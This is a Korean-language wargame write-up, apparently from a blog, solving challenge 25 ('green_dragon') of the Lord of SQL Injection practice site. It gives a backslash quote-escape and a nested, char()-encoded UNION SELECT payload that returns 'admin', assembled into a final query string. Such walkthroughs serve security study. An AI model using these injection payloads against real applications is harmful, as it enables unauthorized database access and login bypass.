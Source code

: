 ```yaml
---
title: LOS - 25번 green_dragon
category: Lord of SQL Injection
---
```


# [25] green_dragon

## 문제

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fcvzy13%2FbtrocSsciXb%2FA4XrMQJ1aQFkquIV3RGSK1%2Fimg.png">

## 풀이

[1] id 페이로드

```
\
```

<br>

[2] pw 페이로드

```
union select char(92), char(117,110,105,111,110,32,115,101,108,101,99,116,32,99,104,97,114,40,57,55,44,49,48,48,44,49,48,57,44,49,48,53,44,49,49,48,41,32,35) %23
```

<br>

따라서, 최종 페이로드는 다음과 같다.

```
?id=\&pw=union select char(92), char(117,110,105,111,110,32,115,101,108,101,99,116,32,99,104,97,114,40,57,55,44,49,48,48,44,49,48,57,44,49,48,53,44,49,49,48,41,32,35) %23
```

## 결과

<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbZVUrx%2FbtrocqCH4Rh%2FBlqAkOMkvzBAm7s9AwJQUk%2Fimg.png">